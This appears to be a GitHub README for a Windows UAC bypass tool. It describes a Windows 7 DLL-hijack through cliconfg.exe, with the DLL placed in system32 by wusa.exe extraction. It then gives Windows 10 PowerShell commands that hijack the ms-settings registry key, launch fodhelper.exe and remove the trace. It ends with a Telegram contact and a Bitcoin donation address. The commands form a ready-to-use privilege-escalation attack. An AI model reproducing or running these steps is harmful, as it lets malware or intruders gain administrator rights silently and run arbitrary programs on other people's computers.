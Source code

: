 <h1 align="center">Bypass-UAC Rad Studio XE7</h1>

Windows 7
Both Dlls (under 64 bits and 32 bits) will be packed into a .cab archive by a command from cmd with administrator rights
(Example: makecab "C:\dll\Win64\ntwdblib.dll" "C:\ntwdblib64.cab")
ntwdblib32.cab and ntwdblib64.cab are already written in the code as an array of strings, in the execonsole project
to translate the ntwdblib32.cab file into an array of strings, you can use the code from the conststring project
We use the process vulnerability from the white list "%systemroot%\system32\cliconfg.exe"
Programmatically, using the update installer "%systemroot%\system32\wusa.exe" (it is also in the windows white list)
(Example: wusa "%temp%\ntwdblib.cab" /quiet /extract:%systemroot%\system32\)
do unpacking ntwdblib64.cab or ntwdblib32.cab depending on bitness
to the directory "%systemroot%\system32\ntwdblib.dll"
We start the process "%systemroot%\system32\cliconfg.exe" with user rights, but considering that it is in the windows white list
it executes itself with administrator privileges and loads our dll library "%systemroot%\system32\ntwdblib.dll"
in connection with which it inherits administrator rights and is able to execute any PE file bypassing the UAC window.
Windows 10
We use the vulnerability of the process from the white list "fodhelper.exe"
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "путь до нашего файла" -Force
powershell New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
powershell Start-Process "fodhelper.exe"
powershell Remove-Item "HKCU:\Software\Classes\ms-settings\shell\open\command" -Recurse -Force

-------
### Video
[![video](https://i.postimg.cc/rw9fmbs8/maxresdefault.jpg)](https://youtu.be/VKTAxeYmjFI)

-------

### Support
Telegram: @Official_Mr_Robot

BTC: 1PoieWSbe1A7o2nAuXE37ncQHnGqxcdhJc
